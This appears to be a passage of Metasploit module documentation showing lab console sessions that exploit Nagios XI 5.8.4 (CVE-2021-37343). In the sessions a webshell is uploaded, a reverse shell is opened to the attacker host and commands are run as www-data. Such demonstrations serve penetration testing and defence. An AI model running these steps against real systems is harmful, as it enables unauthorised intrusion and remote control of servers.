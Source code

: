 ```
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44224 ) at 2022-02-05 17:53:27 -0800

meterpreter > shell
Process 800816 created.
Channel 1 created.
uname -a
Linux ubuntu 5.13.0-27-generic #29~20.04.1-Ubuntu SMP Fri Jan 14 00:32:30 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
whoami
www-data
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Get a reverse shell

```
msf6 > use auxiliary/scanner/http/nagios_xi_scanner
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set target 0
target => 0
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse double SSL handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Deleting autodiscovery job
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo nyjlVFXNgWehsWFs;
```